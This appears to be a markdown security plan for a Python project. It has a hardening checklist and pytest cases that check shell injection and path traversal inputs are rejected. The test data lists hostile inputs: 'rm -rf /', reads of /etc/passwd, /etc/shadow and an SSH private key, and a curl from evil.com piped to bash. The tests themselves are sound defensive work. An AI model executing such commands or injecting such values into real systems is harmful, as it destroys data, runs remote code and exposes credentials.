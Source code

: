 ## Implementation Checklist

### spawn_orc.py
- [x] Implement shlex.quote() for all shell arguments
- [x] Add profile name validation (alphanumeric only)
- [x] Add terminal name validation
- [x] Set bash strict mode in scripts
- [x] Add length limits for inputs
- [ ] Add security tests

### team_compose.py
- [x] Project name validation with reserved words
- [x] HTML escaping for template variables
- [x] Safe template loading with path validation
- [x] Input sanitization for all user inputs
- [ ] Template injection tests

### Common Security Utilities
- [x] Create InputValidator class
- [x] Create PathValidator class
- [x] Standardize error messages
- [ ] Add security logging
- [ ] Create validation test suite

## Testing Strategy

### Security Test Cases
```python
def test_shell_injection_prevention():
    """Test that shell injection attempts are blocked."""
    malicious_inputs = [
        "; rm -rf /",
        "$(cat /etc/passwd)",
        "`whoami`",
        "profile && curl evil.com/hack.sh | bash",
        "../../../etc/passwd",
        "test; echo 'hacked' > /tmp/pwned"
    ]

    for payload in malicious_inputs:
        with pytest.raises(click.BadParameter):
            InputValidator.validate_profile_name(payload)
```

### Path Traversal Tests
```python
def test_path_traversal_prevention():
    """Test that path traversal attempts are blocked."""
    dangerous_paths = [
        "../../../etc/passwd",
        "/etc/shadow",
        "~/../../../root/.ssh/id_rsa",
        "/dev/../etc/hosts"
    ]

    for path in dangerous_paths:
        with pytest.raises(ValueError):
            PathValidator.validate_working_directory(path)
```
